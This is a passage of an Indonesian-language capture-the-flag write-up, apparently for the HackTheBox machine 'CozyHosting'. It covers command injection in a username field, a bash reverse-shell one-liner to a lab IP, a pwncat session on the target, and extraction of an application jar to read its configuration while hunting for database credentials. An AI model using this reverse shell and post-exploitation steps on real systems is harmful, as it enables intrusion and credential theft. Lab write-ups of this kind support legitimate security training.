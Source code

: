 ### Comand Injection to RCE
Pada awalnya saya menemukan kejanggalan saat meneliti form tersebut, saya menemukan adanya celah `comand injection` pada parameter username
![Screenshot at 2023-09-09 21-51-40](https://github.com/k1r4-id/k1r4-id.github.io/assets/62828015/d65a0897-e4bb-404c-a27f-cbcf5076101d)

Karena saya berhasil melakukan `Comand Injection` lalu tahap berikutnya saya akan melakukan `Reverse Shell` untuk masuk ke web server tersebut
![Screenshot at 2023-09-10 03-29-13](https://github.com/k1r4-id/k1r4-id.github.io/assets/62828015/8517d5d0-ffd7-4e56-9753-a34982c9a64a)

```sh     
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.30/4444 0>&1'
```
> ini adalah script revershell yang saya gunakan

Saya mendapatkan akses shell sebagai pengguna APP

```sh
┌[parrot]─[22:15-09/09]─[~]
└╼k1r4$pwncat-cs -lp 4444

[22:15:21] Welcome to pwncat 🐈!                                                                         __main__.py:164
[22:15:42] received connection from 10.129.78.19:40540                                                        bind.py:84
[22:15:46] 10.129.78.19:40540: registered new host w/ db                                                  manager.py:957
(local) pwncat$                                                                                                         
(remote) app@cozyhosting:/app$ 
```
Saya menemukan file `jar` difolder `app`, lalu saya copy file tersebut ke dir `tmp`  dan saya extract. Saya menemukan credential database `postgresql` didalam file `application.properties` pada directory `/BOOT-INF/classes` 

```sh
(remote) app@cozyhosting:/app$ ls
cloudhosting-0.0.1.jar
(remote) app@cozyhosting:/app$ cp cloudhosting-0.0.1.jar /tmp/
(remote) app@cozyhosting:/app$ cd /tmp/
(remote) app@cozyhosting:/tmp$ ls
BOOT-INF
cloudhosting-0.0.1.jar
hsperfdata_app
META-INF
org
systemd-private-4c3ec572ed18415091ba4338c21d71c1-ModemManager.service-Yq4WNZ
systemd-private-4c3ec572ed18415091ba4338c21d71c1-systemd-logind.service-Q8MYmy
systemd-private-4c3ec572ed18415091ba4338c21d71c1-systemd-resolved.service-Z4nt4m
systemd-private-4c3ec572ed18415091ba4338c21d71c1-systemd-timesyncd.service-XhL0kU
systemd-private-4c3ec572ed18415091ba4338c21d71c1-upower.service-SY3DWm
tomcat.8080.3718851477085433742
tomcat-docbase.8080.6252866923267777882
vmware-root_765-4248156194
(remote) app@cozyhosting:/tmp$ cd BOOT-INF/
(remote) app@cozyhosting:/tmp/BOOT-INF$ ls
classes  classpath.idx	layers.idx  lib
(remote) app@cozyhosting:/tmp/BOOT-INF$ cd classes/
(remote) app@cozyhosting:/tmp/BOOT-INF/classes$ ls
application.properties	htb  static  templates
(remote) app@cozyhosting:/tmp/BOOT-INF/classes$ cat application.properties 
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
```